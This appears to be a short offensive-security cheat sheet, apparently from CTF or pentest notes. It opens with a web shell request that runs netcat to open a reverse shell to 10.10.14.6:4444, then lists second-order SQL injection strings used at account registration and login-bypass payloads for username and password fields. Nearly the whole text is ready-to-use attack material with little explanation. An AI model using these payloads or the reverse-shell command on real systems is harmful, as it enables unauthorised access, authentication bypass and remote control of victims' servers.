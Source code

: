 ```
we start it


/shell3.php?cmd=nc -nv 10.10.14.6 4444 -e /bin/bash
```

# second order sqli

---

we register accounts with a sqli for example


```
rop' or 2=2 #
' or 0=0 ​ --
' or 0=0 #
' or 0=0 #"
' or '1'='1'​ --
' or 1 ​ --'
' or 1=1​ --
' or 1=1 or ''='
' or 1=1 or ""=
' or a=a​ --
' or a=a
') or ('a'='a
'hi' or 'x'='x';
```

Then we log in rop’ or 2=2 #:password

# Login Bypass:

---

replace ‘ with “ if fail

```
' or '1'='1  
' or 1=1;--  
' or 1=1;#  
') or ('x'='x  
' or <column> like '%';--  
' or 1=1 LIMIT 1;--  

USERNAME:   ' or 1/*  
PASSWORD:   */ =1 --  

USERNAME: admin' or 'a'='a  
PASSWORD '#  

USERNAME: admin' --  
PASSWORD:
```
